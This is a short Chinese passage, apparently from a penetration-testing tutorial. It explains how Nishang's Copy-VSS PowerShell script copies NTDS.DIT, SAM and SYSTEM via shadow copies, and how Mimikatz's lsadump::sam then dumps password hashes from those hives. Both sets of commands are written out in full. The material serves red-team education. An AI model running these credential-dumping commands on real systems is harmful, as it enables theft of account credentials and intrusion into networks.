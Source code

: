 ### Nishang

Nishang 是一个 PowerShell 框架，它让 redteam 和渗透测试人员能够对系统进行攻击性操作，Nishang 中的 VSS 脚本可以用于自动提取所需的文件：NTDS.DIT，SAM 和 SYSTEM，这些文件将被解压缩到当前工作目录或指定的任何其他文件夹中

```plain
Import-Module .\Copy-VSS.ps1
Copy-VSS  //复制到当前目录
Copy-VSS -DestinationDir C:\ShadowCopy\   //复制到指定目录
```

[![](assets/1706090550-3dbe2590db63ef2e332581a2582b9a4e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101122-de67d1b2-ba5d-1.png)

之后通过 Mimikatz 来获取信息：

```plain
lsadump::sam /sam:sam.hive /system:system.hive
```

[![](assets/1706090550-1bc114201a69563494bd1ebc953d4d2f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101143-eaeb6764-ba5d-1.png)
